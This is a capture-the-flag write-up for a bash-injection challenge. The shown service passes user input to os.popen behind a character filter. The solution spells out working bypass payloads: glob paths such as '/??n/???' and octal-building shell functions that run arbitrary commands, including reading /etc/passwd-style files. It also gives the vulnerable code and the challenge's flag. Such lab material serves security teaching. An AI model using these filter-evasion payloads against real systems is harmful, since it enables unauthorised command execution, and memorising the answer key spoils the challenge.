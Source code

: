 # Bashing your spirit foods
Testing on bash injection knowledge

<i>Creator - @Platy</i>

## Category
Pwn 150

## Question
>You are not yourself when you are hungry. Have a CTF challenge and stop <i>bashing</i> people up.
>
>Connect via `nc <ip address> 17345`

### Hint
`I hate needles`

## Setup Guide
Do `bash build.sh`

## Distribution
None.

## Solution
This challenge tests on bash injection.
```
Foods available
[n]achos
[f]ishies
> 
```
If we try to enter any other letters besides `n` or `f`, we will get:
```
Sorry, but we do not serve these here. Maybe next time!
```
When we try to get `n` for nachos, we get this:
```
  _   _            _               
 | \ | |          | |              
 |  \| | __ _  ___| |__   ___  ___ 
 | . ` |/ _` |/ __| '_ \ / _ \/ __|
 | |\  | (_| | (__| | | | (_) \__ \
 |_| \_|\__,_|\___|_| |_|\___/|___/

Hope you enjoy!
sh: 1: n: not found
```
Same goes when we type `f` except we get 'Fishies' instead of 'Nachos'.

We get `sh: 1 n: not found`. It runs a shell with the input as the command. For example, if we entered `cat /etc/passwd`, the output will be printed back. However, we cannot use such a enter that because it contains other letters besides `n` or `f`. When we try `nnnnnn`, it shows `sh: 1: nnnnnn: not found`.

First, we should try using cat to view the contents of all the files. But how can we send cat using only `n` or `f`? It turns out after trying many different characters, it accepts special characters `!@#$%^*()[]{};',.` etc.

So we can use special characters and the letters `n` and `f`. Now we're getting somewhere. Unix has autocompletion functions. Typing out `cat *` well expand to `cat <filename>`. The asterisk represents any number of characters. The question marks represents only one character.

So by inputting `/??n/??? ./*`, we manage to view all the files in the current directory. This reveals the python script and shows what it is actually doing

```python
def getFlag():
	input = raw_input('''Foods available
[n]achos
[f]ishies
> ''')
	if (re.findall('[0-9a-eg-mo-zA-Z]',input) == []):
		if input == 'n':
			nachos()
		elif input == 'f':
			fish()
		print 'Hope you enjoy!'
		print os.popen(input).read()
	else:
		print 'Sorry, but we do not serve these here. Maybe next time!'
```

We can now see that it filters out `[0-9a-eg-mo-zA-Z]`.

By using autocompletition again, we can use `printf` to output the necessary characters to the file.

Locate `printf` by using `/*/??n/???n?f`

Functions can be created in bash `functionName(){ function; }`. By using this method we can create a print function `n(){ /*/??n/???n?f ${@}; };` where `${@}` represents the parameters passed to the print function

We can use octal to print out characters. All we need now is to be able to print numbers without actually printing numbers.

`${#}` counts the number of arguments specified to the print function. Using the previously declared function `n`, we can use it to create a new function `f(){ n ${#}; };`

Now we can specify any number we want and by extension, whatever string we want. This prints out 'a' because the octal for 'a' is '141'. Therefore, there are 3 function `f` with 1, 4 and 1 as arguments respectively:
```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };n $(n \\\\`f "" ; f "" "" "" "" ; f "" ; `;)
```

We can add another `$()` that acts like an 'eval' function which allows us to run whatever command we like. You can run any command with nothing more than 'n', 'f' and a bunch of special characters!

For example, `ls` becomes this:
```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };$(n $(n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" "" ; `;))
```

There is a generator `solution.py` in the solution folder to generate the commands.

Basically, we have shell access with a very troublesome way to run commands.

We can now use `ls -la` to find if there are any interesting files. Remember to separate the 2 commands and pipe it in manually. Also, do not redefine the functions again.

We find a file called `f14g` which when cat, does not show us a flag, but a clue to where the next flag is. Do `ls -l -d -1 /*/* | grep flag` to find if there are any interesting files. Remember to separate the 2 commands and pipe it in manually. Also, do not redefine the functions again.

```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };$(n $(n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" "" ; f "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" ; `;)) | $(n $(n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" "" ; `;))
```

We can see this file called `/bin/thisisareallylongflagbutifyoucansomehowcatthisitwouldbeamazing` by doing `cat /bin/*flag*`

```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };$(n $(n \\\\`f "" ; f "" "" "" "" ; f "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" ; f "" ; `;n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" ; `;))
```

Cat the file and you can see assembler code

```asm
(gdb) disas main
Dump of assembler code for function main:
   0x00000000000006b0 <+0>:	push   rbp
   0x00000000000006b1 <+1>:	mov    rbp,rsp
   0x00000000000006b4 <+4>:	push   0x7d
   0x00000000000006b6 <+6>:	push   0x68
   0x00000000000006b8 <+8>:	push   0x37
   0x00000000000006ba <+10>:	push   0x6c
   0x00000000000006bc <+12>:	push   0x34
   0x00000000000006be <+14>:	push   0x33
   0x00000000000006c0 <+16>:	push   0x68
   0x00000000000006c2 <+18>:	push   0x5f
   0x00000000000006c4 <+20>:	push   0x72
   0x00000000000006c6 <+22>:	push   0x30
   0x00000000000006c8 <+24>:	push   0x66
   0x00000000000006ca <+26>:	push   0x5f
   0x00000000000006cc <+28>:	push   0x64
   0x00000000000006ce <+30>:	push   0x34
   0x00000000000006d0 <+32>:	push   0x62
   0x00000000000006d2 <+34>:	push   0x5f
   0x00000000000006d4 <+36>:	push   0x35
   0x00000000000006d6 <+38>:	push   0x31
   0x00000000000006d8 <+40>:	push   0x5f
   0x00000000000006da <+42>:	push   0x36
   0x00000000000006dc <+44>:	push   0x6e
   0x00000000000006de <+46>:	push   0x31
   0x00000000000006e0 <+48>:	push   0x68
   0x00000000000006e2 <+50>:	push   0x35
   0x00000000000006e4 <+52>:	push   0x34
   0x00000000000006e6 <+54>:	push   0x62
   0x00000000000006e8 <+56>:	mov    r9d,0x7b
   0x00000000000006ee <+62>:	mov    r8d,0x46
   0x00000000000006f4 <+68>:	mov    ecx,0x54
   0x00000000000006f9 <+73>:	mov    edx,0x43
   0x00000000000006fe <+78>:	mov    esi,0x47
   0x0000000000000703 <+83>:	lea    rdi,[rip+0xae]        # 0x7b8
   0x000000000000070a <+90>:	mov    eax,0x0
   0x000000000000070f <+95>:	call   0x560 <printf@plt>
   0x0000000000000714 <+100>:	add    rsp,0xd0
   0x000000000000071b <+107>:	mov    eax,0x0
   0x0000000000000720 <+112>:	leave
   0x0000000000000721 <+113>:	ret
End of assembler dump.
```

As we can see, a lot of values are being pushed into the stack. And at the end, it calls the `printf` function.

We can store all the items in the stack and decode it into ascii using a small python script

```python
values = [0x47,0x43,0x54,0x46,0x7b,0x62,0x34,0x35,0x68,0x31,0x6e,0x36,0x5f,0x62,0x34,0x64,0x5f,0x66,0x30,0x72,0x5f,0x68,0x33,0x34,0x6c,0x37,0x68,0x7d]
for i in values:
	print(chr(i),end='')
print()
```

### Flag
`GCTF{b45h1n6_15_b4d_f0r_h34l7h}`

## Distribution
No files to be distributed

## Credits
33c3 ctf - 2016

Misc.

hohoho - 350pts

## Recommended Reads
None.